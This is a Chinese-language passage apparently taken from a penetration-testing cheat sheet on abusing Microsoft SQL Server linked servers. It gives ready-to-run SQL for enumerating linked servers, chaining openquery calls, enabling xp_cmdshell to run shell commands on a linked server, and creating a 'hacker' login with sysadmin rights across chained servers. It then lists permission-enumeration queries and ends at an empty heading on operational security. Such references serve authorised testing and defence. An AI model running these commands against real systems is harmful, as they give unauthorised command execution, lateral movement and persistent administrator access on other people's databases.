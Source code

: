 手动利用

```sql
-- 查找链接
select * from master..sysservers

-- 通过链接执行查询
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
select version from openquery("linkedserver", 'select @@version as version');

-- 链接多个openquery
select version from openquery("link1",'select version from openquery("link2","select @@version as version")')

-- 执行shell命令
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT LinkedServer
select 1 from openquery("linkedserver",'select 1;exec master..xp_cmdshell "dir c:"')

-- 创建用户并给予管理员权限
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```

## 列出权限

列出当前用户在服务器上的有效权限。

```sql
SELECT * FROM fn_my_permissions(NULL, 'SERVER'); 
```

列出当前用户在数据库上的有效权限。

```sql
SELECT * FROM fn_my_permissions (NULL, 'DATABASE');
```

列出当前用户在视图上的有效权限。

```
SELECT * FROM fn_my_permissions('Sales.vIndividualCustomer', 'OBJECT') ORDER BY subentity_name, permission_name; 
```

检查当前用户是否是指定服务器角色的成员。

```sql
-- 可能的角色：sysadmin, serveradmin, dbcreator, setupadmin, bulkadmin, securityadmin, diskadmin, public, processadmin
SELECT is_srvrolemember('sysadmin');
```

## MSSQL操作安全
